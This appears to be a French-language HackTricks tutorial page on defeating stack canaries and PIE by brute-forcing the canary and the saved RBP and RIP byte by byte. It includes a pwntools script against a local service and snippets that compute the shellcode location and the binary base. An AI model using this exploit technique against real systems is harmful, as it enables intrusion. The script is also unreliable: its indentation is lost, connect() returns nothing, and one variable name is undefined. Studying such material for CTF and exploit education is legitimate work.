 # Adresses BF dans la pile

{{#include ../../../../banners/hacktricks-training.md}}

**Si vous êtes confronté à un binaire protégé par un canary et un PIE (Position Independent Executable), vous devez probablement trouver un moyen de les contourner.**

![](<../../../../images/image (144).png>)

> [!NOTE]
> Notez que **`checksec`** pourrait ne pas détecter qu'un binaire est protégé par un canary si celui-ci a été compilé statiquement et qu'il n'est pas capable d'identifier la fonction.\
> Cependant, vous pouvez le remarquer manuellement si vous constatez qu'une valeur est enregistrée dans la pile au début d'un appel de fonction et que cette valeur est vérifiée avant la sortie.

## Adresses par Brute-Force

Pour contourner le PIE, vous devez **fuiter une adresse**. Et si le binaire ne fuit aucune adresse, le mieux à faire est de **brute-forcer le RBP et le RIP enregistrés dans la pile** dans la fonction vulnérable.\
Par exemple, si un binaire est protégé à la fois par un **canary** et un **PIE**, vous pouvez commencer par brute-forcer le canary, puis les **8 octets suivants** (x64) seront le **RBP** enregistré et les **8 octets suivants** seront le **RIP** enregistré.

> [!TIP]
> On suppose que l'adresse de retour dans la pile appartient au code binaire principal, ce qui, si la vulnérabilité se situe dans le code binaire, sera généralement le cas.

Pour brute-forcer le RBP et le RIP du binaire, vous pouvez déterminer qu'un octet deviné valide est correct si le programme produit quelque chose ou s'il ne plante tout simplement pas. La **même fonction** que celle fournie pour brute-forcer le canary peut être utilisée pour brute-forcer le RBP et le RIP :
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
La dernière chose dont vous avez besoin pour vaincre le PIE est de calculer **des adresses utiles à partir des adresses divulguées** : le **RBP** et le **RIP**.

À partir du **RBP**, vous pouvez calculer **où vous écrivez votre shell dans la pile**. Cela peut être très utile de savoir où vous allez écrire la chaîne _"/bin/sh\x00"_ à l'intérieur de la pile. Pour calculer la distance entre le RBP divulgué et votre shellcode, vous pouvez simplement mettre un **point d'arrêt après avoir divulgué le RBP** et vérifier **où se trouve votre shellcode**, puis, vous pouvez calculer la distance entre le shellcode et le RBP :
```python
INI_SHELLCODE = RBP - 1152
```
À partir du **RIP**, vous pouvez calculer la **base de l'adresse du binaire PIE**, ce qui est nécessaire pour créer une **chaîne ROP valide**.\
Pour calculer l'adresse de base, il suffit de faire `objdump -d vunbinary` et de vérifier les dernières adresses désassemblées :

![](<../../../../images/image (145).png>)

Dans cet exemple, vous pouvez voir que seulement **1 octet et demi est nécessaire** pour localiser tout le code, donc, l'adresse de base dans cette situation sera le **RIP divulgué mais se terminant par "000"**. Par exemple, si vous avez divulgué `0x562002970ecf`, l'adresse de base est `0x562002970000`
```python
elf.address = RIP - (RIP & 0xfff)
```
{{#include ../../../../banners/hacktricks-training.md}}
